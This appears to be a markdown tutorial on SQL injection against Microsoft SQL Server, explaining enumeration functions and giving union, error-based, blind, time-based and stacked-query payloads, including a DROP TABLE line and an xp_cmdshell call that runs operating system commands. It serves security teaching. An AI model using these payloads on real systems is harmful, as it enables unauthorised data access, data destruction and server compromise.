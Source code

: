 ```yaml
---
title: Master SQL Injection on Microsoft SQL Server
description: Learn different SQL injection techniques on Microsoft SQL Server including
  enumeration and advanced injection tactics.
keywords:
- Microsoft SQL Server
- SQL Injection
- Union-Based Injection
- Blind SQL Injection
- Enumeration
- Server Properties
- Stacked Queries
- Database Security
---
```


# Microsoft SQL Server

## Context

This guide is designed to teach specific SQL injection techniques on Microsoft SQL Server. It assumes that the reader has a working knowledge of SQL language, database schema, HTTP requests, and general SQL injection methods.

## Theory

### Microsoft SQL Server Default Databases

Microsoft SQL Server comes with several default databases, such as `master`, `model`, `msdb`, `tempdb`, and `northwind`. These default databases can often reveal sensitive information if they are improperly secured. They contain system-wide configuration settings and metadata about all other databases on the server, which could be leveraged for further exploitation.

### SQL Comment Syntax in MSSQL

In Microsoft SQL Server, the comment syntax allows you to manage the execution flow of SQL statements. Single-line comments are denoted by `--`, and multi-line comments are enclosed within `/* */`. Attackers can use comments to bypass query logic or terminate queries early to manipulate the SQL execution path for injection purposes.

### Enumeration Techniques in MSSQL

Enumeration in MSSQL involves gathering information about the database structure and metadata. This is typically done using built-in functions and system tables. Functions like `DB_NAME()` and `SCHEMA_NAME()`, along with system tables such as `information_schema.tables`, facilitate the enumeration of databases and their structure. Understanding the schema and tables is crucial for exploiting SQL injection vulnerabilities further.

### Version and Server Property Enumeration

Enumerating version and server properties is an important step in planning attacks, as it provides insights into potential vulnerabilities based on the server version and configuration. Microsoft SQL Server provides functions such as `@@version` and `SERVERPROPERTY()` to retrieve version information and server properties; this helps attackers tailor their exploits accordingly.

### String Aggregation and Object Identification

Functions like `STRING_AGG()` and `OBJECT_ID()` are used in data retrieval and object identification. `STRING_AGG()` is useful for concatenating query results into a single string, which can be helpful in blind SQL injection attacks, while `OBJECT_ID()` allows attackers to confirm the existence of a particular database object.

## Practice

### Union-Based SQL Injection

Union-based SQL injection exploits vulnerabilities by appending additional SELECT queries using the UNION SQL operator. It enables attackers to retrieve data from other tables where data types match.

- **Command:**

    ```sql
    SELECT column1, column2 FROM table UNION SELECT NULL, @@version --
    ```

  This retrieves the SQL Server version using the UNION operator.

- **Command:**

    ```sql
    SELECT column1, column2 FROM table UNION SELECT NULL, DB_NAME() --
    ```

  This command is used to enumerate the current database name.

**Outcome:** Successful execution provides access to the database version and names, aiding mapping of the database environment.

### Error-Based SQL Injection

Error-based SQL injection uses SQL errors to gather database information.

- **Command:**

    ```sql
    SELECT 1/0 FROM table --
    ```

  This triggers an error that may reveal database configuration information.

- **Command:**

    ```sql
    SELECT CAST((SELECT @@version) AS INT) --
    ```

  Forces a data type conversion error to display the SQL Server version.

**Outcome:** Database errors reveal sensitive system information to the attacker.

### Blind SQL Injection

Blind SQL injection relies on evaluating conditions that can infer the database structure based on True/False outcomes.

- **Command:**

    ```sql
    SELECT CASE WHEN (SELECT COUNT(*) FROM information_schema.tables) > 0 THEN 1 ELSE 1/0 END --
    ```

  Illicitly determines the number of tables in the database.

- **Command:**

    ```sql
    SELECT CASE WHEN (SELECT SYSTEM_USER) = 'sa' THEN 1 ELSE 1/0 END --
    ```

  Checks if the current user is the 'sa' account using logical conditions.

**Outcome:** Provides an inferential method for accessing database structure and user information.

### Time-Based Blind SQL Injection

Time-based techniques introduce delays to ascertain responses without visible output.

- **Command:**

    ```sql
    WAITFOR DELAY '00:00:05' --
    ```

  Introduces a delay, affecting operation timing as an inference channel.

- **Command:**

    ```sql
    IF (SELECT SYSTEM_USER) = 'sa' WAITFOR DELAY '00:00:05' --
    ```

  Tests user roles by triggering time delays based on conditions.

**Outcome:** Deduces information about user roles and database states using time-based inference.

### Stacked Query Injection

Stacked queries exploit the ability to execute multiple SQL statements in one execution by separating them with a semicolon.

- **Command:**

    ```sql
    SELECT 1; DROP TABLE test --
    ```

  Allows execution of additional commands, such as dropping a table.

- **Command:**

    ```sql
    SELECT 1; EXEC xp_cmdshell 'dir' --
    ```

  Executes operating system commands through SQL Server extensions like `xp_cmdshell`.

**Outcome:** Enables arbitrary SQL and operating system command execution, escalating from database to server-level attacks.

## Tools

- **sqlmap**
- **Burp Suite**
- **Nmap**